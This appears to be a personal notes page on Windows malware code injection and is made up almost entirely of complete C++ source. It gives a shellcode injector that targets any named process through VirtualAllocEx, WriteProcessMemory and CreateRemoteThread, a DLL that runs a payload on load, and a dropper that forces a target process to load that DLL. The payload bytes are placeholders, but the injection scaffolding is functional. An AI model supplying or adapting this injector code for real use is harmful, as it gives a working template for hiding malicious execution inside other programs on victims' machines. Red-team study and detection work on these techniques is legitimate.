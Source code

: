 ```yaml
---
title: Notes | Code Injection
author: Zeropio
date: 2023-02-01
categories: [Notes, Malware]
tags: [malware]
permalink: /notes/malware/code-injection
---
```


Usually, to inject code into another process in C the following functions from the WinApi will be used:
- `VirtualAllocEx`
- `WriteProcessMemory`
- `CreateRemoteThread`


---

# EXE Injection

First, let's initialize the C++ file with our shellcode:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = {<PAYLOAD>};
unsigned int payload_len = <LEN>;
```

In the `main` function, let's try to inject it inside the **<ANY>.exe**:
```cpp
int main(void) {
    
	int pid = 0;
    HANDLE hProc = NULL;

	pid = FindTarget("<ANY>.exe");

	if (pid) {
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			Inject(hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}

```

tHE `FindTarget` function will take a snapshot of all the processes running:
```cpp
int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}
```

`Inject` will allocate the shellcode in a remote process:
```cpp
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

  
        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}
```

---

# DLL Injection

Instead of injecting the code into an EXE, we need to inject it into a DLL used by another program. For this, we need the following steps:
1. Get `LoadLibrary` from the dropper with `GetProcAddress`
2. Use `VirtualAllocEx` in the target
3. `WriteProcessMemory` with the path to DLL
4. `CreateRemoteThread` with an address of `LoadLibrary` and the path


## DLL File

As usually, we start our program with the payload:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char payload[] = {<PAYLOAD>};
unsigned int payload_len = <LEN>;
```

Then we start our DLL executable:
```cpp

extern __declspec(dllexport) int Go(void);
int Go(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	RtlMoveMemory(exec_mem, payload, payload_len);
	
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, 0);
	}
	return 0;
}
```

To make the function `Go` run when the library is loaded we need to implement the following:
```cpp
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {

	switch ( fdwReason ) {
			case DLL_PROCESS_ATTACH:
					Go();
					break;
			case DLL_THREAD_ATTACH:
					break;
			case DLL_THREAD_DETACH:
					break;
			case DLL_PROCESS_DETACH:
					break;
			}
	return TRUE;
}

```

## Dropper

The dropper will start with the `FindTarget` function:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>


int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}
```

The `main` function will load the `LoadLibrary` function. Then it will open the **<ANY>.exe** and inject the path of our DLL.
```cpp
int main(int argc, char *argv[]) {
	
	HANDLE pHandle;
	PVOID remBuf;
	PTHREAD_START_ROUTINE pLoadLibrary = NULL;
	char dll[] = "<PATH TO DLL>.dll";
	char target[] = "<ANY>.exe";
	int pid = 0;
	
	
	pid = FindTarget(target);
	if ( pid == 0) {
		return -1;
	}


	pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

	pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

	if (pHandle != NULL) {
		remBuf = VirtualAllocEx(pHandle, NULL, sizeof dll, MEM_COMMIT, PAGE_READWRITE);	
	
		WriteProcessMemory(pHandle, remBuf, (LPVOID) dll, sizeof(dll), NULL);

		CreateRemoteThread(pHandle, NULL, 0, pLoadLibrary, remBuf, 0, NULL);

		CloseHandle(pHandle); 
	}
	else {
		return -2;
	}
}
```
